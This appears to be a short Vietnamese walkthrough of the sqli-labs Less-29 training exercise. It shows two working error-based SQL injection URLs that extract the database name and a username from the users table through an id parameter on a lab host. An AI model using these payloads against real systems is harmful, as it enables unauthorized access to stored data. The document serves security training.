





# Less 29

Đề bài cho phép truyền vào ID từ URL



Thử nhập vào



Nhập vào một các giá trị có thể dẫn đến lỗi của SQL



Ta thấy ở đây có lỗi hiển thị trên màn hình. Tận dụng vào đây có thể khai thác thông tin của DB thông qua đây

```
http://192.168.84.233/sqli-labs/Less-29/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



Show thông tin trong một bảng

```
http://192.168.84.233/sqli-labs/Less-29/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select username from users limit 0,1), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



CHưa thấy bị chặn gì bởi firewall